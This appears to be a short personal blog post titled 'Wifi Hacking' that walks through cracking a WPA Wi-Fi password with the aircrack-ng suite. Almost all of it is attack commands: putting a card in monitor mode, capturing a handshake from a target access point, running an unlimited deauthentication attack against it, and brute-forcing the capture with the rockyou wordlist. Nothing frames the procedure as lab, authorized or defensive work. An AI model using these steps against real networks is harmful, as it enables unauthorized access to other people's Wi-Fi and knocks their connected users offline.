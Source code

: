 ```yaml
---
layout: post
title: Wifi Hacking
---
```


*Alfa-card is mandatory to search/scan for available Networks*

Steps:
**Connect alfa-card and check the Interfaces**

  ipconfig/iwconfig - This you will give the wlan0 interface

**Start Monitor Mode**

  airmon-ng start wlan0

**Verify its Monitor Mode**

  airmon-ng/iwconfig

**Now Scan/Check for Nearby Available Networks**

  airodump-ng wlan0mon
  
The above command this will display or show list of available networks and make sure you capture and keep a note of AP's MAC address(BSSID) and channel
*AccessPoint(AP)*

**After getting BSSID and Channel id
Start Capturing the Handshake and Attack the same Time or after 5min.**

  airodump-ng -w test -c 11 --bssid BE:A5:8B:65:F8:FE wlan0mon - to capture the Handshake

  aireplay-ng --deauth 0 -a BE:A5:8B:65:F8:FE wlan0mon - to attack the network

**-w to save a file** 

**Now Stop the Monitormode and brute force the captured handshake**

  airmon-ng stop wlan0mon

**Bruteforce the saved file with the wordlists to crack the password**

  aircrack-ng test.cap -w /usr/share/wordlists/rockyou.txt 
